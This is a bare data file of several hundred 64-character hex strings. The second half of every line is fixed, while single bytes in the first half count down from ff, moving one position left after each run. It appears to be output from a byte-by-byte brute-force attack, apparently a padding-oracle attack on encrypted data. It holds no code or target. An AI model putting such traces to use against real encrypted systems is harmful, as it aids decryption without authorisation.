00000000000000fea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000fda008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000fca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000fba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000faa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f9a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f8a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f7a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f6a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f5a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f4a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f3a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f2a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f1a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000f0a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000efa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000eea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000eda008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000eca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000eba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000eaa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e9a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e8a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e7a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e6a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e5a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e4a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e3a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e2a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e1a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000e0a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000dfa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000dea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000dda008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000dca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000dba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000daa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d9a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d8a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d7a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d6a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d5a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d4a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d3a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d2a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d1a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000d0a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000cfa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000cea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000cda008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000cca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000cba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000caa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c9a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c8a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c7a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c6a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c5a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c4a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c3a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c2a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c1a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000c0a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000bfa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000bea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000bda008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000bca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000bba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000baa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b9a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b8a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b7a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b6a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b5a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b4a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b3a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b2a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b1a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000b0a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000afa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000aea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000ada008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000aca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000aba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000aaa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a9a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a8a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a7a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a6a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a5a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a4a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a3a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a2a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a1a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
00000000000000a0a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000009fa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000009ea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000009da008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000009ca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000009ba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000009aa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000099a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000098a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000097a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000096a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000095a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000094a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000093a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000092a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000091a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000090a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000008fa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000008ea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000008da008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000008ca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000008ba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000008aa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000089a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000088a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000087a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000086a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000085a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000084a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000083a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000082a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000081a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000080a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000007fa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000007ea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000007da008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000007ca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000007ba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000007aa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000079a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000078a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000077a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000076a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000075a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000074a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000073a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000072a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000071a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000070a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000006fa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000006ea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000006da008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000006ca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000006ba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000006aa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000069a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000068a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000067a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000066a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000065a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000064a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000063a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000062a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000061a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000060a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000005fa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000005ea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000005da008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000005ca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000005ba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000005aa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000059a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000058a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000057a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000056a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000055a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000054a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000053a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000052a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000051a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000050a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000004fa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000004ea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000004da008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000004ca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000004ba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000004aa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000049a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000048a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000047a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000046a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000045a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000044a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000043a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000042a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000041a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000040a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000003fa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000003ea008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000003da008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000003ca008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000003ba008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000003aa008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000000039a008407b3fddb5be54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000ff3aa30b43783cdeb6bd54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000fe3aa30b43783cdeb6bd54f5b5f8b5bf079cb364e3b6ec0cf813
000000000000fd3aa30b43783cdeb6bd54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000fffc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000fefc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000fdfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000fcfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000fbfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000fafc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f9fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f8fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f7fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f6fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f5fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f4fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f3fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f2fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f1fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000f0fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000effc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000eefc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000edfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000ecfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000ebfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000eafc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e9fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e8fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e7fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e6fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e5fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e4fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e3fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e2fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e1fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000e0fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000dffc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000defc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000ddfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000dcfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000dbfc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000dafc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000d9fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000d8fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000d7fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000d6fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000d5fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
0000000000d4fc3ba20a42793ddfb7bc54f5b5f8b5bf079cb364e3b6ec0cf813
00000000ffd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000fed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000fdd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000fcd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000fbd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000fad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f9d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f8d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f7d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f6d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f5d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f4d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f3d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f2d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f1d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000f0d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000efd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000eed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000edd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000ecd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000ebd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000ead3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e9d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e8d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e7d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e6d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e5d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e4d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e3d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e2d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e1d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000e0d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000dfd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000ded3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000ddd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000dcd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000dbd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000dad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d9d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d8d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d7d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d6d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d5d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d4d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d3d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d2d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d1d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000d0d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000cfd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000ced3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000cdd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000ccd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000cbd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000cad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c9d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c8d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c7d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c6d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c5d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c4d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c3d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c2d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c1d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000c0d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000bfd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000bed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000bdd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000bcd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000bbd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000bad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b9d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b8d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b7d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b6d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b5d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b4d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b3d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b2d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b1d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000b0d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000afd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000aed3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000add3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000acd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000abd3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000aad3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a9d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
00000000a8d3fb3ca50d457e3ad8b0bb54f5b5f8b5bf079cb364e3b6ec0cf813
